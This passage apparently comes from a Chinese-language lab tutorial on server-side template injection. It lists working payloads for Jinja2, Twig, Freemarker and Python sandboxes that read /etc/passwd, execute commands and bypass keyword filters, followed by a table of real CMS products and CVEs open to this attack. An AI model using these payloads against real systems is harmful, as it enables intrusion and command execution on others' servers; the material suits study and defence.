 2. **字符串拼接**：

   - 拼接关键字绕过黑名单：

     ```
  {{ self|attr("__ini"+"t__")|attr("__glo"+"bals__") }}  
     ```

3. **结果验证**：

   - 成功访问 `__globals__` 并执行命令。

#### 知识点

- **过滤绕过技巧**：编码、拼接、替代符号（如 `[]` 代替 `.`）。
- **灵活构造 Payload**：利用模板引擎的字符串操作特性。

------

### 总结

| 实验编号 | 模板引擎   | 漏洞类型 | 关键 Payload                                                 | 绕过技巧                |      |
| :------- | :--------- | :------- | :----------------------------------------------------------- | :---------------------- | ---- |
| 1        | Jinja2     | 文件读取 | `{{ self.__globals__.__builtins__.open('/etc/passwd').read() }}` | 对象链调用              |      |
| 2        | Twig       | RCE      | `{{ _self.env.getFilter("cat /flag.txt") }}`                 | Twig 回调函数利用       |      |
| 3        | Freemarker | RCE      | `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }` | 实例化危险类            |      |
| 4        | Python     | 沙箱逃逸 | `{{ url_for.__globals__.os.system('id') }}`                  | 框架上下文利用          |      |
| 5        | 通用       | 过滤绕过 | `{{ self                                                     | attr("\x5f\x5finit\x5f\x5f") }}` | 十六进制编码/字符串拼接 |      |

# 二、案例

## 案例概览

| 序号 | 系统名称             | CVE编号        | 影响版本 | 风险等级 | 利用场景           | 关键技术点                |
| :--- | :------------------- | :------------- | :------- | :------- | :----------------- | :------------------------ |
| 1    | Akaunting            | -              | 3.1.8    | 高危     | 商品/税收/交易表单 | Jinja2类继承链            |
| 2    | Gibbon LMS           | CVE-2024-24724 | v26.0.00 | 高危     | 系统配置模块       | Twig过滤器`filter()`      |
| 3    | FoF Pretty Mail      | -              | 1.1.2    | 高危     | 邮件模板编辑       | PHP原生模板`system()`调用 |
| 4    | Winter CMS           | -              | 1.2.2    | 高危     | CMS模板编辑        | Twig全局变量泄露          |
| 5    | Pyro CMS             | CVE-2023-29689 | 3.9      | 高危     | 角色描述编辑       | Twig过滤器链式调用        |
| 6    | CmsMadeSimple        | -              | 2.2.17   | 高危     | 内容编辑模块       | Smarty Cookie变量泄露     |
| 7    | MotoCMS              | -              | 3.0.27   | 高危     | URL参数注入        | 动态模板解析              |
| 8    | Camaleon CMS         | CVE-2023-30145 | <2.7.0   | 高危     | 文件上传接口       | ERB代码执行               |
| 9    | Grav CMS             | CVE-2021-29440 | 1.7.10   | 高危     | 页面内容编辑       | Twig系统函数调用          |
| 10   | Atlassian Confluence | CVE-2019-3396  | <6.14.3  | 严重     | Widget宏参数       | Velocity路径遍历          |
